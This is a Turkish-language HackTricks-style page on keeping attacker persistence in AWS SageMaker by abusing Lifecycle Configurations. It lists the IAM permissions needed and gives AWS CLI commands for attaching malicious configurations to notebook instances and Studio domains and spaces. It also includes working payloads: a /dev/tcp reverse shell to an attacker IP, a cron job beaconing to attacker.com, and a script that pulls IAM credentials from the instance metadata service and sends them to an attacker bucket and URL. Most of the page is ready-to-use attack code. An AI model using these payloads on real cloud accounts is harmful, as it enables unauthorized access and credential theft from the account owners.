 # Aws Sagemaker Persistence

{{#include ../../../banners/hacktricks-training.md}}

## Persistence Tekniklerinin Genel Görünümü

Bu bölüm, Lifecycle Configurations (LCC'ler) istismar edilerek SageMaker'da kalıcılık elde etme yöntemlerini, ters shell'ler, cron işleri, IMDS aracılığıyla kimlik bilgisi hırsızlığı ve SSH arka kapıları dahil olmak üzere özetlemektedir. Bu betikler, örneğin IAM rolü ile çalışır ve yeniden başlatmalar arasında kalıcı olabilir. Çoğu teknik, dışa dönük ağ erişimi gerektirir, ancak AWS kontrol düzlemindeki hizmetlerin kullanımı, ortam "VPC-sadece" modda olsa bile başarıyı sağlayabilir.
#### Not: SageMaker not defteri örnekleri, esasen makine öğrenimi iş yükleri için özel olarak yapılandırılmış yönetilen EC2 örnekleridir.

## Gerekli İzinler
* Notebook Instances:
```
sagemaker:CreateNotebookInstanceLifecycleConfig
sagemaker:UpdateNotebookInstanceLifecycleConfig
sagemaker:CreateNotebookInstance
sagemaker:UpdateNotebookInstance
```
* Studio Uygulamaları:
```
sagemaker:CreateStudioLifecycleConfig
sagemaker:UpdateStudioLifecycleConfig
sagemaker:UpdateUserProfile
sagemaker:UpdateSpace
sagemaker:UpdateDomain
```
## Notebook Örneklerinde Yaşam Döngüsü Yapılandırmasını Ayarlama

### Örnek AWS CLI Komutları:
```bash
# Create Lifecycle Configuration*

aws sagemaker create-notebook-instance-lifecycle-config \
--notebook-instance-lifecycle-config-name attacker-lcc \
--on-start Content=$(base64 -w0 reverse_shell.sh)


# Attach Lifecycle Configuration to Notebook Instance*

aws sagemaker update-notebook-instance \
--notebook-instance-name victim-instance \
--lifecycle-config-name attacker-lcc
```
## SageMaker Studio'da Yaşam Döngüsü Yapılandırmasını Ayarlama

Yaşam döngüsü yapılandırmaları, SageMaker Studio içinde çeşitli seviyelerde ve farklı uygulama türlerine eklenebilir.

### Stüdyo Alanı Seviyesi (Tüm Kullanıcılar)
```bash
# Create Studio Lifecycle Configuration*

aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-studio-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)


# Apply LCC to entire Studio Domain*

aws sagemaker update-domain --domain-id <DOMAIN_ID> --default-user-settings '{
"JupyterServerAppSettings": {
"DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
}
}'
```
### Stüdyo Alanı Seviyesi (Bireysel veya Paylaşılan Alanlar)
```bash
# Update SageMaker Studio Space to attach LCC*

aws sagemaker update-space --domain-id <DOMAIN_ID> --space-name <SPACE_NAME> --space-settings '{
"JupyterServerAppSettings": {
"DefaultResourceSpec": {"LifecycleConfigArn": "<LCC_ARN>"}
}
}'
```
## Studio Uygulama Yaşam Döngüsü Yapılandırma Türleri

Yaşam döngüsü yapılandırmaları, farklı SageMaker Studio uygulama türlerine özel olarak uygulanabilir:
* JupyterServer: Jupyter sunucusu başlangıcında betikleri çalıştırır, ters shell ve cron işleri gibi kalıcılık mekanizmaları için idealdir.
* KernelGateway: Kernel gateway uygulaması başlatıldığında çalışır, başlangıç ayarları veya kalıcı erişim için kullanışlıdır.
* CodeEditor: Kod Düzenleyici'ye (Code-OSS) uygulanır, kod düzenleme oturumlarının başlangıcında çalışan betikleri etkinleştirir.

### Her Tür için Örnek Komut:

### JupyterServer
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-jupyter-lcc \
--studio-lifecycle-config-app-type JupyterServer \
--studio-lifecycle-config-content $(base64 -w0 reverse_shell.sh)
```
### KernelGateway
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-kernelgateway-lcc \
--studio-lifecycle-config-app-type KernelGateway \
--studio-lifecycle-config-content $(base64 -w0 kernel_persist.sh)
```
### CodeEditor
```bash
aws sagemaker create-studio-lifecycle-config \
--studio-lifecycle-config-name attacker-codeeditor-lcc \
--studio-lifecycle-config-app-type CodeEditor \
--studio-lifecycle-config-content $(base64 -w0 editor_persist.sh)
```
### Kritik Bilgiler:
* Alan veya alan seviyesi LCC'lerin eklenmesi, kapsam içindeki tüm kullanıcıları veya uygulamaları etkiler.
* Genellikle alan seviyesinden daha uygulanabilir olan daha yüksek izinler gerektirir (sagemaker:UpdateDomain, sagemaker:UpdateSpace).
* Ağ seviyesi kontrolleri (örneğin, katı çıkış filtrelemesi) başarılı ters shell'leri veya veri sızdırmalarını engelleyebilir.

## Yaşam Döngüsü Yapılandırması ile Ters Shell

SageMaker Yaşam Döngüsü Yapılandırmaları (LCC'ler), not defteri örnekleri başladığında özel betikler çalıştırır. İzinlere sahip bir saldırgan, kalıcı bir ters shell kurabilir.

### Payload Örneği:
```
#!/bin/bash
ATTACKER_IP="<ATTACKER_IP>"
ATTACKER_PORT="<ATTACKER_PORT>"
nohup bash -i >& /dev/tcp/$ATTACKER_IP/$ATTACKER_PORT 0>&1 &
```
## Cron Job Persistence via Lifecycle Configuration

Bir saldırgan, LCC scriptleri aracılığıyla cron işleri enjekte edebilir, kötü niyetli scriptlerin veya komutların periyodik olarak çalıştırılmasını sağlayarak gizli bir kalıcılık elde edebilir.

### Payload Example:
```
#!/bin/bash
PAYLOAD_PATH="/home/ec2-user/SageMaker/.local_tasks/persist.py"
CRON_CMD="/usr/bin/python3 $PAYLOAD_PATH"
CRON_JOB="*/30 * * * * $CRON_CMD"

mkdir -p /home/ec2-user/SageMaker/.local_tasks
echo 'import os; os.system("curl -X POST http://attacker.com/beacon")' > $PAYLOAD_PATH
chmod +x $PAYLOAD_PATH

(crontab -u ec2-user -l 2>/dev/null | grep -Fq "$CRON_CMD") || (crontab -u ec2-user -l 2>/dev/null; echo "$CRON_JOB") | crontab -u ec2-user -
```
## Kimlik Bilgilerinin IMDS (v1 & v2) Üzerinden Sızdırılması

Yaşam döngüsü yapılandırmaları, IAM kimlik bilgilerini almak ve bunları saldırganın kontrolündeki bir konuma sızdırmak için Instance Metadata Service (IMDS) ile sorgu yapabilir.

### Yük Örneği:
```bash
#!/bin/bash
ATTACKER_BUCKET="s3://attacker-controlled-bucket"
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
ROLE_NAME=$(curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/)
curl -s -H "X-aws-ec2-metadata-token: $TOKEN" http://169.254.169.254/latest/meta-data/iam/security-credentials/$ROLE_NAME > /tmp/creds.json

# Exfiltrate via S3*

aws s3 cp /tmp/creds.json $ATTACKER_BUCKET/$(hostname)-creds.json

# Alternatively, exfiltrate via HTTP POST*

curl -X POST -F "file=@/tmp/creds.json" http://attacker.com/upload
```
{{#include ../../../banners/hacktricks-training.md}}
